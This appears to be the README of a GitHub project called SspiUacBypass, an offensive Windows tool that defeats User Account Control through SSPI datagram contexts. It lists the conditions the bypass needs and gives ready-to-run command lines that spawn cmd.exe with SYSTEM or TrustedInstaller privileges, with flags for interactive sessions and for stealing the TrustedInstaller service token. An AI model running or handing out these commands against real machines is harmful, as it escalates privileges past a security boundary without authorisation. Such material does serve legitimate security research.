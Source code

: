 # SspiUacBypass
Bypassing UAC with SSPI Datagram Contexts 

Full technical details at --> https://splintercod3.blogspot.com/p/bypassing-uac-with-sspi-datagram.html

# Requirements for the bypass to works

- The user must belongs to the local *Administrators* group *(needed to open the SCM)*
- The user must have a password set 
*(Windows security policy prevents accounts with blank passwords from establishing network authentication contexts, causing the AcceptSecurityContext function to fail with SEC_E_LOGON_DENIED because the system cannot generate valid security tokens for passwordless accounts during network logon attempts.)*


# Usage

Run a command using SYSTEM privileges

**Note**: By default, as the program will be executed by a service, it will spawn on Session 0 which is isolated from your current session.

```
SspiUacBypass.exe c:\windows\system32\cmd.exe
SspiUacBypass.exe cmd.exe
SspiUacBypass.exe cmd.exe /k dir %windir%\System32"
```

Run a command using SYSTEM privileges **(Interactive)**

**Note**: Using the *-i* argument, the process will spawn on your current Session and Desktop *(winsta0\\default)*

```
SspiUacBypass.exe -i c:\windows\system32\cmd.exe
```

Run a command using Trusted Installer Privileges

**Note**: Using the *-t* argument, *SspiUacBypass.exe* will try to start the **Trusted Installer service**, get its token, duplicate it and use it to spawn the process using the same privileges as *Trusted Installer*.

```
SspiUacBypass.exe -t c:\windows\system32\cmd.exe
```


Run a command using Trusted Installer Privileges **(Interactive)**

**Note**: You can use both arguments at the same time. The process will spawn in the current user desktop with *Trusted Installer* privileges.

```
SspiUacBypass.exe -i -t c:\windows\system32\cmd.exe
```